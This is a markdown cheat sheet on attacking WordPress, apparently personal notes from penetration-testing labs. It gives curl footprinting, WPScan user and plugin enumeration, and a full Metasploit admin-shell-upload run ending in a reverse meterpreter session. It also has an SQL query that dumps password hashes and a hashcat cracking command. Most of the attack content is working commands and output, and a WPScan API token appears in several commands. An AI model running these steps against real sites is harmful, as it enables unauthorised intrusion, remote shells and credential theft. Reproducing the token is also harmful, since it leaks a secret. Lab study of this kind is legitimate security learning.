 # Attacking Wordpress

- [Footprinting](#footprinting)
- [WPScan](#wpscan)
- [Metasploit](#metasploit)

## Footprinting

Look for meta generator tag in HTML source:

```
<meta name="generator" content="WordPress 5.3.3" />
```

or:

```
# curl -s -X GET  http://10.10.11.125 | grep '<meta name="generator"'
<meta name="generator" content="WordPress 5.8.1" />
```


## WPScan

First, update:

```
# wpscan --update
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.
```

Then, enumerate with our API key:

```
# wpscan --url http://10.10.11.125 --enumerate --api-token vYvrH7HT2y...
```

Enumerate users:

```
# wpscan  --url http://10.10.11.125 -e u --api-token vYvrH7HT2yKLSaLG5K51f6HGFZzdga...
```

Enmerate plugins:

```
# wpscan  --url http://10.10.11.125 -e ap --api-token vYvrH7HT2yKLSaLG5K51f6HGFZzdgabos8zElrpAHbY
```

## Metasploit

(Require authentication)

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P4ssword
PASSWORD => P4ssword
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Authenticating with WordPress using admin:P4ssword...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/vuJOXoEGoO/ALFTyZjtAc.php...
[*] Sending stage (39282 bytes) to 10.10.10.37
[+] Deleted ALFTyZjtAc.php
[+] Deleted vuJOXoEGoO.php
[+] Deleted ../vuJOXoEGoO
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.37:46268) at 2021-07-10 12:04:31 +0200
```

cracking password:

```
select concat_ws(':', user_login, user_pass) from wp_users;
```

hashcat (put ONLY hash in file):

```
D:\tmrc\tools\hashcat-6.0.0>hashcat.exe -O -m 400 -a 0 -o notch_cracked.txt notch.txt d:\tmrc\hacking\wordlist\rockyou.txt
```
